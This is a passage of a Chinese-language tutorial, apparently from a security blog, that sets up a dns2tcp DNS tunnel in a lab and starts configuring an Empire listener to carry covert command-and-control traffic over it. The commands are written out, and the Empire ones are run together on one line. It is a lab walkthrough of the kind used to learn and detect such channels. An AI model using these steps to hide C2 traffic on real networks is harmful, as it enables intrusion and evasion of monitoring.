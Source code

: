 -d：指定调试日志打印等级

最终成功启动如下图：

![img](https://image.3001.net/images/20190714/1563066023_5d2a7ea794e84.png!small)

### 4.3、DNS隧道搭建之客户端配置

(1)、在编译好(或下载)的EXE可执行程序的目录下打开powershell窗口，并执行如下启动命令

```
./dns2tcpc.exe -r c2 -z dnsc2.test.com 192.168.81.149 -l 5353 -d 2
```

启动命令中各参数说明：

-r：指定要使用的服务端配置的资源对应的名

-z：配置为建立DNS隧道使用的域名

-l：指定隧道客户端监听的本地端口

-d：作用同服务端，输出2级调试信息

注意：命令中的192.168.81.149表示指定目标DNS服务器(也可以是DNS服务器的域名，但必须在上一级域名的DNS记录中正确配置了NS记录和A记录)，若不指定则使用默认DNS进行解析，由于本次复现环境未注册域名并配置公网IP解析，因此将无法寻址(DNS请求无法到达我们隧道的服务端)。在局域网情况下，必须指定为服务端IP，即直至指定使用DNS隧道服务器解析dnsc2.test.com（并未真正解析，只是为了使所有dnsc2.test.com及其子域名的解析请求都能到达服务端）。

(2)、成功启动DNS客户端后如下图(不要关闭该窗口)

![img](https://image.3001.net/images/20190714/1563066083_5d2a7ee3841dd.png!small)

(3)、测试隧道是否建立成功并可以数据数据(非必须)

> 1)、在服务端搭建一个Openssh-Server，即搭建SSH服务端并配置SSH登录，相关详细操作可参考利用SSH隧道加密、隐蔽C&C通信流量。
>
> 2)、更改启动参数中的-r为 -r ssh并启动客户端。
>
> 3)、在客户端使用SSH登录工具(如Putty)，通过127.0.0.1佳5353端口SSH登录服务端，若成功登录，并能在服务端和客户端的相应窗口内看到数据传输打印的日志则表明隧道建立成功。如下图

![img](https://image.3001.net/images/20190714/1563066146_5d2a7f22d03c5.png!small)

日志打印如下图：

![img](https://image.3001.net/images/20190714/1563066176_5d2a7f4057ef3.png!small)

### 4.4、使用Empire基于DNS隧道构建隐蔽的C&C信道

搭建隧道的关键是理解服务端、客户端之间的数据通信关系，大致如下图：

![img](https://image.3001.net/images/20190714/1563066208_5d2a7f60519d3.png!small)

(1)、设置监听

进入Empire，设置名为dnsc2的监听，并配置监听的Port和Host为服务端配置文件dns2tcpd.conf文件中指定的用于建立C&C信道的资源对应的地址127.0.0.1：5353。

```
listeners#进入的界面下可输入list查看以设置的监听uselistener http#输入 info查看必填参数set Name dnsc2set Port 5353set Host 127.0.0.1execute #创建命为dnsc2的监听，监听127.0.0.1:5353上通信数据
```
